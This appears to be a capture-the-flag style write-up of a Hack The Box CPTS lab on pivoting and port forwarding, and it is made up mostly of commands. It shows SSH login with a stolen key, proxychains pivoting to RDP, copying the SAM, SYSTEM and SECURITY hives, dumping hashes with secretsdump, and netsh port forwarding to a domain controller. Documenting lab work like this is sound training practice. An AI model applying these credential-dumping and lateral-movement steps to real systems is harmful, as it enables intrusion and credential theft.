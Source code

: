 
# HTB CPTS - Pivoting, Tunneling, and Port Forwarding - Skills Assessment Walkthrough - Target: 10.129.229.129

## **1. Target Information**
- **Primary Target IP:** `10.129.229.129`
- **Internal Host Discovered:** `172.16.5.35`
- **Discovered Services:**  
  - **Port 22 (SSH)**
  - **Port 80 (HTTP - Web Shell)**

---

## **2. Initial Enumeration**
### **Nmap Scan**
Performed a service and version scan:

```bash
nmap -sC -sV -oN initial_scan.txt 10.129.229.129
```

#### **Results:**
```
22/tcp   open  ssh    OpenSSH X.X (protocol 2.0)
80/tcp   open  http   Apache httpd X.X
```

---

## **3. Website Enumeration**
### **Discoveries:**
- Browsed to `http://10.129.229.129/` and found an **active web shell**.
- Extracted:
  - **User:** `webadmin`
  - **SSH Private Key:** `id_rsa`
  - **Credentials:** `mlefay:Plain Human work!`

---

## **4. Gaining Initial Access**
### **Using SSH Key for Access**
Attempted SSH login with the extracted key:

```bash
chmod 600 id_rsa
ssh -i id_rsa webadmin@10.129.229.129
```

✅ **Access granted as `webadmin`!**

---

## **5. Internal Network Enumeration**
### **Ping Sweeping for Hosts**
Discovered an internal host:

```bash
for ip in {1..254}; do ping -c 1 172.16.5.$ip | grep "64 bytes"; done
```

🔍 **Active Host Identified:** `172.16.5.35`

---

## **6. Pivoting with Proxychains & RDP**
### **Port Forwarding Setup**
Configured SSH dynamic port forwarding:

```bash
ssh -D 5050 -i id_rsa webadmin@10.129.229.129
```

Modified **proxychains.conf** file to use `socks5` instead of `socks4`:

```bash
sudo nano /etc/proxychains.conf
```

Changed the last line to:
```
socks5  127.0.0.1 5050
```

Used **proxychains** and **RDP** to pivot into the internal host:

```bash
proxychains xfreerdp /u:mlefay /p:"Plain Human work!" /v:172.16.5.35
```

✅ **Successfully accessed the machine and found the flag:**

```
REDACTED
```

---

## **7. Extracting Windows Hashes**
Saved key registry files and extracted hashes:

```bash
copy C:\Windows\System32\config\SAM sam.save
copy C:\Windows\System32\config\SECURITY security.save
copy C:\Windows\System32\config\SYSTEM system.save
```

### **Mounting a Shared Folder on Kali**
Transferred files to a mounted share on Kali:

```bash
mkdir /mnt/share
sudo mount -t cifs //target_ip/share /mnt/share -o username=webadmin,password=<password>
```

Transferred files:

```bash
cp sam.save /mnt/share/
cp security.save /mnt/share/
cp system.save /mnt/share/
```

Extracted hashes using Impacket:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

🔍 **Found vfranks' Password!**

---

## **8. Port Forwarding & Domain Controller Access**
### **Setting up Netcat Port Forwarding**

```bash
netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=target_ip
```

✅ **Connected via RDP using `vfranks` credentials** and gained access to the **Domain Controller**.

### **Final Flag Found on DC!**

---

## **9. Notes & Learnings**
- 🔹 **Web shells often expose critical credentials. Always check HTTP services.**
- 🔹 **SSH private keys can provide easy footholds if misconfigured.**
- 🔹 **Proxychains and dynamic port forwarding help enumerate internal hosts.**
- 🔹 **Dumping Windows registry files can reveal user credentials for lateral movement.**

---

**📝 Author:** _Jack Misbach_ 
**📅 Date:** _1/30/25_  

